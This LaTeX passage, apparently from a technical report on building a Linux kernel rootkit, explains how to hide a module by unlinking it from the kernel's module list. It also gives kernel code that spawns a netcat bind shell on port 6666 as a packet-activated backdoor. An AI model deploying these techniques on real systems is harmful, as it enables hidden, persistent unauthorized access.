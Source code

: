 \documentclass[12pt]{article}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
This sounds hard at first but it is rather easy. We can use the special exported symbol \texttt{extern struct module \_\_this\_module;} which points to the module we are currently in. The module structure, see Listing \ref{module}, has a field \texttt{list} that points to the list of all modules. 

\begin{lstlisting}[caption=Extract from Linux/include/linux/module.h, label=module]
struct module {
         enum module_state state;
 
         /* Member of list of modules */
         struct list_head list;
 
         /* Unique handle for this module */
         char name[MODULE_NAME_LEN];

         // skipped for brevity
}
\end{lstlisting}

That means to hide the module from detection we only need to delete the reference to it from the list of modules and we are done. Luckily the kernel provides us with handy list manipulation functions. Finally our effort boils down to one line of code as you can see in Listing \ref{hide}.

\begin{lstlisting}[caption=Hide the current module., label=hide]
	list_del(&(__this_module.list));
\end{lstlisting}

\subsection{Backdoor}
For an adversary it proves to be beneficial to have immediate access to a system. Our initial assumption was that we have already compromised the system, i.e. have a rootshell. Hence, to ease re-entry to the system it is essential to install a backdoor, which turns out to be trivial. What we also wanted to achieve is that the backdoor is not active all the time but can be activated whenever needed. Again magic packets, as described in \ref{sec:magicpackage} are used to activate the backdoor. The backdoor itself is created by leveraging netcat, via the following command: \shellcmdinline{netcat -l -p 6666 -e /bin/sh} in userland (ring 3). This is done via the \shellcmdinline{call\_usermodehelper} function. Listing \ref{backdoor} shows the spawning function.

\begin{lstlisting}[caption=Span netcat in userland., label=backdoor]
void shell_tasklet_fn(unsigned long data){
		static char *envp[] = {
	        "HOME=/",
	        "TERM=linux",
	        "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
	char *argv3[] = {"/bin/sh", "-c", "/bin/netcat -l -p 6666 -e /bin/sh &", NULL};
	call_usermodehelper(argv3[0], argv3, envp, UMH_NO_WAIT);

}
\end{lstlisting}
\end{document}
